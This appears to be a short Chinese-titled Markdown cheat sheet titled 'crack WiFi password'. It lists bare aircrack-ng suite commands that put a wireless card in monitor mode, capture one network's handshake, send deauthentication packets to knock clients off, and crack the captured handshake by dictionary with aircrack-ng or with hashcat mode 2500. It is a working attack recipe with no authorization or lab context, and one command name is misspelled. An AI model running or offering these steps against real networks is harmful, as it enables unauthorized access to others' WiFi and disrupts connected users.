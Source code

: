 #  破解 WiFi  密码

```bash
sudo airmon-ng
```



```bash
sudo airmon-ng start wlan0
```



```bash
sudo airodumo-ng wlan0mon
```



```bash
sudo airodump-ng --bssid xxxx -c 6 -w ./test wlan0mon
```



```bash
sudo aireplay-ng --deauth 15 -a xxxx wlan0mon
```



```bash
sudo aircrack-ng --bssid xxx -w pass.txt test.cap
```



hashcat:

[在线转换格式](https://hashcat.net/cap2hccapx/)



```bash
hashcat -m 2500 -a 3 wpahash.hccap
```

